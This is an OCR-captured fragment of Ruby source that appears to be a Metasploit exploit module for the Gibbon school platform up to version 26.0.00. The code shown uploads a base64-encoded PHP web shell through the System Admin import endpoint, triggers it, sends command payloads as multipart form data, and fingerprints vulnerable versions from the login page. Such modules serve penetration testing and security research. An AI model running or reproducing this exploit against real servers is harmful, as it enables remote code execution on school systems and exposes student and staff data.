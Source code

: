 ```
      'uri' => normalize_uri(target_uri.path, 'index.php?q=/modules/System%20Admin/import_run.php&type=externalAssessment&step=4'),
      'keep_cookies' => true,
      'ctype' => "multipart/form-data; boundary=#{form_data.bound}",
      'data' => form_data.to_s
    })
  end
 
  def execute_php(cmd, _opts = {})
    payload = Base64.strict_encode64(cmd)
    res = upload_webshell(payload)
    fail_with(Failure::PayloadFailed, 'Web shell upload error.') unless res && res.code == 200
    register_file_for_cleanup(@webshell_name)
 
    # execute webshell
    send_request_cgi({
      'method' => 'GET',
      'uri' => normalize_uri(target_uri.path, @webshell_name),
      'keep_cookies' => true
    })
  end
 
  def execute_command(cmd, _opts = {})
    form_data = construct_form_data(cmd)
    send_request_cgi({
      'method' => 'POST',
      'uri' => normalize_uri(target_uri.path, 'index.php?q=/modules/System%20Admin/import_run.php&type=externalAssessment&step=4'),
      'keep_cookies' => true,
      'ctype' => "multipart/form-data; boundary=#{form_data.bound}",
      'data' => form_data.to_s
    })
  end
 
  def check
    print_status("Checking if #{peer} can be exploited.")
    res = send_request_cgi!({
      'method' => 'GET',
      'ctype' => 'application/x-www-form-urlencoded',
      'uri' => normalize_uri(target_uri.path)
    })
    return CheckCode::Unknown('No valid response received from target.') unless res && res.code == 200
 
    # check if target is running the Gibbon online school platform
    # search for the Gibbon version on the login page
    return CheckCode::Safe('No Gibbon school platform found.') unless res.body.include?('Gibbon')
 
    # trying to get the version
    version = res.body.match(/Gibbon.*v(\d+\.\d+\.\d+)/)
    version_number = version[0].split('v') unless version.nil?
    if version_number
      if Rex::Version.new(version_number[1]) <= Rex::Version.new('26.0.00')
        return CheckCode::Appears("Gibbon v#{version_number[1]}")
      else
        return CheckCode::Safe("Gibbon v#{version_number[1]}")
      end
    end
    CheckCode::Detected
  end
 
  def exploit
    print_status("Executing #{target.name} for #{datastore['PAYLOAD']}")
```